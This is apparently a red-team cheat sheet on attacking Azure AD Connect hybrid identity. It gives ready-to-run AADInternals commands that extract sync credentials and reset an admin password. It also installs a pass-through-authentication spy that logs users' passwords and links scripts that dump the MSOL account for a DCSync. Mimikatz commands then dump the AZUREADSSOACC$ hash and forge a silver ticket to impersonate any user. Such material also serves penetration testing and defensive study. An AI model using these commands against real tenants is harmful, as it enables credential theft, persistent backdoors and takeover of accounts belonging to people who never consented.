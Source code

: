 # Azure AD - AD Connect and Cloud Sync

| Active Directory                  | Azure AD          |
|-----------------------------------|-------------------|
| LDAP                              | REST API'S        |
| NTLM/Kerberos                     | OAuth/SAML/OpenID |
| Structured directory (OU tree)    | Flat structure    |
| GPO                               | No GPO's          |
| Super fine-tuned access controls  | Predefined roles  |
| Domain/forest                     | Tenant            |
| Trusts                            | Guests            |

Check if Azure AD Connect is installed : `Get-ADSyncConnector`

* For **PHS**, we can extract the credentials
    * Passwords from on-premise AD are sent to the cloud
    * Use replication via a service account created by AD Connect
* For **PTA**, we can attack the agent
    * Possible to perform DLL injection into the PTA agent and intercept authentication requests: credentials in clear-text
* For **Federation**, connect Windows Server AD to Azure AD using Federation Server (ADFS)
    * Dir-Sync : Handled by on-premise Windows Server AD, sync username/password
    * extract the certificate from ADFS server using DA

## Password Hash Synchronization

Get token for `SYNC_*` account and reset on-prem admin password

```powershell
PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
PS > Get-AADIntSyncCredentials

PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache

PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose
```

## Pass-Through Authentication

1. Check if PTA is installed : `Get-Command -Module PassthroughAuthPSModule`
2. Install a PTA Backdoor

    ```powershell
    PS AADInternals> Install-AADIntPTASpy
    PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords
    ```

## Federation

* [Golden SAML](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adfs-federation-services/)

## AD Connect - Credentials

* [dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump) - Dump Azure AD Connect credentials for Azure AD and Active Directory

| Tool | Requires code execution on target | DLL dependencies | Requires MSSQL locally | Requires python locally |
| --- | --- | --- | --- | --- |
| ADSyncDecrypt | Yes | Yes | No | No |
| ADSyncGather | Yes | No | No | Yes |
| ADSyncQuery | No (network RPC calls only) | No | Yes | Yes |

* **ADSyncDecrypt**: Decrypts the credentials fully on the target host. Requires the AD Connect DLLs to be in the PATH. A similar version in PowerShell was released by Adam Chester on his blog.
* **ADSyncGather**: Queries the credentials and the encryption keys on the target host, decryption is done locally (python). No DLL dependencies.
* **ADSyncQuery**: Queries the credentials from the database that is saved locally. Requires MSSQL LocalDB to be installed. No DLL dependencies. Is called from adconnectdump.py, dumps data without executing anything on the Azure AD connect host.

Credentials in ADSync : `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`

## AD Connect - DCSync with MSOL Account

You can perform **DCSync** attack using the MSOL account.

Requirements:

* Compromise a server with Azure AD Connect service
* Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:

* [xpn/azuread_decrypt_msol.ps1](https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545): AD Connect Sync Credential Extract POC
* [xpn/azuread_decrypt_msol_v2.ps1](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c): Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.

## AD Connect - Seamless Single Sign On Silver Ticket

Anyone who can edit properties of the `AZUREADSSOACCS$` account can impersonate any user in Azure AD using Kerberos (if no MFA)

Seamless SSO is supported by both PHS and PTA. If seamless SSO is enabled, a computer account **AZUREADSSOC** is created in the on-prem AD.

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`.

    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```

2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:

    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```

5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.

## References

* [Azure AD connect for RedTeam - Adam Chester @xpnsec - February 18, 2019](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Azure AD Kerberos Tickets: Pivoting to the Cloud - Edwin David - February 9, 2023](https://trustedsec.com/blog/azure-ad-kerberos-tickets-pivoting-to-the-cloud)
* [Azure AD Overview - John Savill's Technical Training - Oct 7, 2014](https://www.youtube.com/watch?v=l_pnNpdxj20)
* [DUMPING NTHASHES FROM MICROSOFT ENTRA ID - Secureworks](https://www.secureworks.com/research/dumping-nthashes-from-microsoft-entra-id)
* [Impersonating Office 365 Users With Mimikatz - Michael Grafnetter - January 15, 2017](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [Introduction to Microsoft Entra Connect V2 - Microsoft](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-azure-ad-connect-v2)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory - Dirk-jan Mollema - 1st apr. 2019](https://www.youtube.com/watch?v=JEIR5oGCwdg)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
* [Update: Dumping Entra Connect Sync Credentials - @hotnops - June 10, 2025](https://posts.specterops.io/update-dumping-entra-connect-sync-credentials-4a9114734f71)
* [Windows Azure Active Directory in plain English - Openness AtCEE - January 9, 2014](https://www.youtube.com/watch?v=IcSATObaQZE)
